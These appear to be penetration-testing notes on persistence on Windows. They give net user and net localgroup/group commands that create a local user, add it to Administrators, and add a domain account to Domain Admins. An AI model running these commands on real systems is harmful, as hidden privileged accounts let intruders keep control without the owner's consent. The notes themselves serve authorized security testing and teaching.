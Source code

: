 **Persistence:**

Persistence methods can be as simple as adding a user to a system or as advanced as kernel-level rootkit that hides itself even from the Windows API making it virtually undetectable

1. Adding a User 

```
C:\Documents and Settings\Desktop> net user james password /add
```

   2. Add our new user to the relevant groups

```
C:\Documents and Settings\Desktop> net localgroup Administrators james /add
```

   3. If your client has a Windows domain, you can add users to the domain and add them to domain groups \(if u have sufficient privileges\)

```
 net user georgia2 password /add /domain
 
 net group "Domain Admins" georgia2 /add /domain
```



